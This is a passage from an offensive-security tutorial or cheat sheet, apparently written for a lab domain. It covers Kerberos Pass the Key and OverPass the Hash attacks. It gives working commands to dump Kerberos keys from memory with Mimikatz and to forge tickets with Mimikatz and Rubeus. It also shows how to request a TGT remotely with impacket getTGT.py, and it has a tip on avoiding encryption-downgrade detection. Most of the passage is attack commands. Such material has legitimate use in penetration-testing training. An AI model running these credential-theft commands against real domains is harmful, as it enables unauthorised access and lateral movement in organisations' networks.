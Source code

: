To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.

### Mimikatz - Extract Kerberos Keys
```powershell
> mimikatz.exe
> privilege::debug
> sekurlsa::ekeys
```

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.

### Mimikatz - Pass the Key or OverPass the Hash
```powershell
> mimikatz.exe
> privilege::debug
> sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using Rubeus, we can use the module asktgt with the username, domain, and hash which can be /rc4, /aes128, /aes256, or /des. In the following example, we use the aes256 hash from the information we collect using Mimikatz sekurlsa::ekeys.

### Rubeus - Pass the Key or OverPass the Hash
```powershell
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /nowrap
```

> Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.


> Note: Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

### Remotely
I wish to execute this attack remotely then use impacket python script gettgt.py which will use a password, hash or aesKey, it will request a TGT and save it as ccache.

```bash
# with an NT hash (overpass-the-hash)
$ getTGT.py -dc-ip <IP> -hashes ':<NTLM hash>' <DOMAIN>/<USER>

# with an AES (128 or 256 bits) key (pass-the-key)
$ getTGT.py -dc-ip <IP> -aesKey '<aes Key>' <DOMAIN>/<USERNAME>@<IP>
```

* * *
